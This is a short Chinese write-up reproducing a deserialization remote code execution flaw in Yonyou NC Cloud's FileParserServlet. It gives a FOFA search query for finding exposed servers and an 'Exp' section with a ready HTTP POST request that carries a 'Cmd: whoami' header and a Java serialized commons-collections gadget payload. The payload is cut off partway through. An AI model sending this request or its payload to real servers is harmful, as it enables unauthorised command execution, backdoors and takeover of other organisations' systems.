

# 用友NC Cloud FileParserServlet反序列化RCE漏洞复现

### 0x01 产品简介

 用友 NC Cloud 是一种商业级的企业资源规划云平台，为企业提供全面的管理解决方案，包括财务管理、采购管理、销售管理、人力资源管理等功能，实现企业的数字化转型和业务流程优化。

### 0x02 漏洞概述

用友 NC Cloud FileParserServlet接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="用友-NC-Cloud"



### 0x04 漏洞复现

Exp

```cobol
POST /service/~uapss/nc.search.file.parser.FileParserServlet HTTP/1.1
Host: your-ip
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x02?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.col
```
